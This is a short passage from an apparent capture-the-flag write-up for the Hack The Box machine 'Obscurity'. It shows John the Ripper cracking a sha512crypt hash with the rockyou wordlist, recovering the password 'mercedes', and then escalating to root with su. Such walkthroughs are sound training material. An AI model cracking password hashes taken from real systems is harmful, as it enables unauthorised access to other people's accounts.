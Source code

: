 This hash can then be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)     
1g 0:00:00:00 DONE (2023-10-03 06:36) 5.555g/s 2844p/s 2844c/s 2844C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can `su` to `root`.

![](../../../.gitbook/assets/htb-obscurity-image-6.png)
